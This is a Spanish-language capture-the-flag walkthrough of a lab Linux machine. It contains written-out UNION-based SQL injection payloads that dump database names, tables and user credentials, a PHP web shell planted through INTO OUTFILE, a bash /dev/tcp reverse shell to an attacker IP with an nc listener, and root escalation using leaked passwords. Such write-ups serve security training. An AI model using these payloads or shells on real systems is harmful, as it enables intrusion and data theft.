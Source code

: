 ## Summary

Tags: #Linux #SQLI #BurpSuite #ReverShell #PHP

- IP -> 10.10.11.116
- Ports -> TCP (22, 80, 8080, 4566), UDP (idk)
- OS ->  Linux 
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
    - 80 -> Apache httpd 2.4.48
    - 8080 -> http nginx / 502 Bad Gateway
    - 4566 -> http nginx / Forbidden

Launchpad -> Focal

## Recon

```bash
❯ ping -c 1 ❮IP❯                             # Para saber si la maquina esta activa o no (ttl=64 Linux, ttl=128 Windows)

	# IP = IP Address de la maquina target 
	# c = Numero de pings a ejecutar
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p22,80 ❮Target IP❯ -oN targeted
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

Usaremos **BurpSuite** para interceptar la maquina en la parte del campo de la pagina web.
- Le damos en Send y despues Forward, como miramos que no sale nada lo hacemos en el **proxy** 
- Modificamos al lado de la palabra Brazil en el **Proxy** y le damos Forward
- Intercept off 
- Miramos la respuesta en la web 
- Ahora si podemos seguir modificando en el repeater en la parte de Brazil y le damos Send y Forward y todo lo podremos ver en la web.
- Si no sale recargamos la pagina y deberia de salir el resultado

Inyecciones SQLI
Estamos haciendo que nos comente el esto de la query por ende nos debe de mostrar todo el contenido visible de la pagina.
```bash
❯ ' or 1=1-- -                                        # La mas sencilla y nos devolveria un true, aveces hace bypass en el panel de autenticacion 
❯ ' order by 100-- -                                  # Haremos un ordenamiento con la 100va columna e iremos adivinando hasta que no nos marque un error
```

```bash
❯ ' union select 1,2,3 -- -                           # Primero colocamos eso y buscamos cual es el numero que nos pone en el output de la web, ya que es en esa columna en donde podremos inyectar algo
```

Para saber las bases de datos (DB) existentes.
```bash 
❯ ' union select schema_name from information_schema.schemata-- -                    # Nos muestra todas las bases de datos existentes  
```
Encontramos las DBS llamadas 'mysql' y 'registration'

Para saber las tablas de la base de datos (DB) especifica.
```bash
❯ ' union select table_name from information_schema.tables where table_schema='❮DB_Name❯'-- -                    # Nos muestra las tablas existentes
Para enumerar las tablas 
```
Encontramos que la tabla tambien de llama 'registration'

Para saber las columnas de la tabla que encontramos y la base de datos  (DB) especifica.
```bash 
❯ ' union select column_name from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯'-- -                    # Nos muestra las tablas existentes
```
Nos muestra ahora 4 columnas pero hay dos importantes 'username' y 'userhash'


Para mostrar la data con concatenaciones
```bash
❯ ' union select group_concat(username,':',password) from ❮Table_Name❯-- -       # Para que nos muestre los datos de los usuarios y su passwd separados por : 
```
Ahora nos disponemos a cargar un archivo y ver si lo podemos observar en la web, esto en una ruta tipica de html que es:
```bash
/var/www/html/file.php 
```

Primero haremos la prueba colocando lo que sea en un archivo .php
```bash
❯ ' union select "❮?php system($_REQUEST['cmd']); ?❯" into outfile "/var/www/html/file.php"-- -   

# Podemos crear un archivo llamado 'file.php' en la ruta html que contenga un cmd que nos interpretara comandos. Primero podemos hacer una prueba, colocando lo que sea en donde esta la parte de System.

# Despues debemos de colocar en la url: **\http://1.1.1.1/prueba.php?cmd=whoami**
	# 1.1.1.1 -> IP de la victima
	# whoami -> Comando a usar, estos pueden ir variando
	# Pero podemos hacer un archivo de PHP Reverse ...
```
Ahora que hemos agregado un archivo en la ruta del HTML. Podemos probar si tenemos ejecucion remota de comandos. 
Despues de verificar que tenemos ejecucion remota de comandos, hacemos lo siguiente. 

## User

Comando de ReverShell para colocarlo en la url
```bash
❯ bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'  # Comando que debemos de Encodear en forma de URL y esto lo podemos colocar en BurpSuite, para despues hacerle Encoder y poderlo poner en la URL 
```
Despues debemos de colocar en la url: **\http://1.1.1.1/prueba.php?cmd=** Aqui

Despues nos colocamos en escucha para al momento de darle Enter a la URL, podamos recibir la Revershell
```bash
❯ nc -nlvp 443 
```

Una vez adentro haciendo un ls -l podemos ver un file que se llama config.php en el cual cuando lo miremos con cat encontraremos un user y passwd.
Si nos regresamos al home del usuario podremos encontrar la flag user.txt

## Root
Despues con el siguiente comando y la passwd que habiamos encontrado, podremos convertirnos en Root
```bash
❯ su root                        # Para convertirnos en root y debemos de proporcionar una passwd
```